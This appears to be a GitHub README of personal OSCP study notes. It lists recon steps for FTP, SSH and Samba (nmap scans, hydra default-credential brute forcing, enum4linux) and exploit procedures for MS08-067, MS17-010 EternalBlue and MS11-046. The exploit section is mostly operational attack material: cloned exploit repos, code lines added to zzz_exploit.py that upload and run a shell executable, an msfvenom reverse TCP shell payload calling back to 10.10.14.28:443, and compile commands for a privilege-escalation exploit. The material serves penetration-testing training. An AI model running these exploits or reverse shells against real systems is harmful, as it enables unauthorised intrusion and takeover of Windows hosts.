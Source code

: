 # oscp_methodology
OSCP Methodology


## Blackbox
#### nmap full tcp port scan
* nmap <ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* Put files
  * if exists web service, check if web and ftp has the same path
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
* nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git

##### zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
 
* custom payload:
  * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f exe > shell.exe

* Need listener

##### eternalblue_exploit7.py

* use the https://github.com/nickvourd/eternalblue_win7_auto_gen in order to merge binaries nad payload
* Run the following: python MS17-010/eternalblue_exploit7.py <ip> /tmp/sc_x<arch>.bin
* Need listener

### Windows
#### MS11-046

* use the https://www.exploit-db.com/exploits/40564
* compile:
  * i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 (apt install mingw-w64)
* no need listener (insta run)


 
